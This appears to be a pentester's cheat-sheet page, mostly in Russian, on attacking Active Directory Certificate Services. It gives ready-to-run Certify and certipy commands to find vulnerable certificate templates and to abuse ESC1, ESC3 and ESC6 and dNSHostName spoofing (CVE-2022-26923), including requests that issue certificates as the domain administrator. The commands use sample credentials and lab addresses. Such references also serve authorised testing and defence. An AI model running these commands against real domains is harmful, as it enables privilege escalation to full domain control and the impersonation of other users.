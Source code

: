 # AD CS

{% embed url="https://xakep.ru/2022/10/14/active-directory-privesc/" %}

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

To **find vulnerable certificate templates** you can run:

```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128
```



Шаб­лоны сер­тифика­тов хра­нят­ся в сле­дующем кон­тей­нере:

`CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=com`

Со­ответс­твен­но, получить шаб­лоны мож­но при помощи сле­дующей коман­ды PowerShell, исполь­зуя модуль AD:

`PS > Get-ADObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=`



### Certipy + BH

```bash
wget -O ~/.config/bloodhound/customqueries.json https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json
```

```bash
$ certipy find 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com
```



### Modifiable SAN. ESC1

Это ата­ка осно­выва­ется на изме­нении парамет­ра SAN, который поз­воля­ет ука­зать аль­тер­натив­ное имя поль­зовате­ля. Это поз­волит нам выпус­тить сер­тификат на дру­гого поль­зовате­ля, даже адми­нис­тра­тора домена. Что­бы ата­ка прош­ла успешно, шаб­лон сер­тифика­та дол­жен иметь уста­нов­ленный флаг `ENROLLEE_SUPPLIES_SUBJECT`.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -dc-ip 10.11.1.184 -ca CA-contoso -template "1" -alt "administrator@contoso.com"
```



### Any or None Purpose Attack. ESC2

Ес­ли в шаб­лоне сер­тифика­та ука­зан EKU любого наз­начения или вооб­ще отсутс­тву­ет EKU, сер­тификат мож­но исполь­зовать для чего угод­но. Им мож­но зло­упот­реблять, как ESC3, нап­ример исполь­зовать сер­тификат в качес­тве тре­бова­ния для зап­роса дру­гого сер­тифика­та от име­ни любого поль­зовате­ля.



### Enrollment Agent. ESC3

В [до­кумен­тации Microsoft](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-cersod/97f47d4c-2901-41fa-9616-96b94e1b5435) ука­зано, что EKU Certificate Request Agent может исполь­зовать­ся, что­бы выдать себя за дру­гого поль­зовате­ля, и поз­воля­ет выпус­тить сер­тификат, который может быть исполь­зован для сов­мес­тной под­писи зап­росов от име­ни любого поль­зовате­ля для любого шаб­лона.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template Agent
```

Пос­ле того как мы получи­ли обыч­ного поль­зовате­ля, зап­росим сер­тификат, пред­ста­вив­шись дру­гим поль­зовате­лем.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template User -on-behalf-of 'contoso\Administrator' -pfx kent.jill.pfx
```



### **(EDITF\_ATTRIBUTESUBJECTALTNAME2). ESC6**

`EDITF_ATTRIBUTESUBJECTALTNAME2` Этот флаг поз­воля­ет ука­зать про­изволь­ный SAN (Subject Alternative Name) для всех сер­тифика­тов, нес­мотря на кон­фигура­цию шаб­лона сер­тифика­та.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -template <Любой шаблон> -ca CA-contoso -alt administrator@contoso.com
```



### dNSHostName Spoofing

Пол­ный флоу ата­ки выг­лядит сле­дующим обра­зом:

1. Соз­дание компь­юте­ра в домене с `dNSHostName`, соот­ветс­тву­ющим DNS-име­ни кон­трол­лера домена.
2. За­мена SPN.
3. Зап­рос сер­тифика­та для компь­юте­ра.

**как про­верить, уяз­вим ли кон­трол­лер домена к CVE-2022-26923? Глав­ным приз­наком уяз­вимос­ти слу­жит наличие SID в отве­те на зап­рос сер­тифика­та. Если он есть — патч в сис­теме при­сутс­тву­ет, если нет, то пат­ча тоже нет.**
